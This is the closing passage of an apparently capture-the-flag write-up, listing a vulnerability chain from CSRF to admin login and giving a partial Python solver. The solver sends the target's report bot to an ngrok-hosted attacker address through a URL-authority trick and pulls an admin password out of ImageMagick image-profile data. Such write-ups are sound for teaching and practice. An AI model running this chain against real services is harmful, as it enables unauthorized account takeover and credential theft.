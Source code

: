 ![alt text](/assets/img/success.png)

Now we’re just need to login as admin and fetch the flag
### CHAINING THE VULN
CSRF -> Register -> Upload Arbitrary File Read -> Download -> Login as admin -> Profit

### SOLVER

```py
from flask import Flask, request
import requests
import subprocess
import base64
TARGET = "https://54.254.152.24:1337"
# TARGET = "https://localhost:1337"
HOST = "0.tcp.ap.ngrok.io:15965"
requests.post(TARGET+"/api/report", json={
   "url":"https://localhost:1337@"+HOST
}, verify=False)
def print_image_profiles(image_path):
   try:
       result = subprocess.run(
           ['identify', '-verbose', image_path],
           capture_output=True, text=True, check=True
       )
       output = result.stdout
       x = ''.join(output.split('Raw profile type')[1].split('signature')[0].split("\n")[3:-1])
       password = bytes.fromhex(x).split(b'admin')[1]
       return password
   except subprocess.CalledProcessError as e:
       print("Error running identify:", e)


```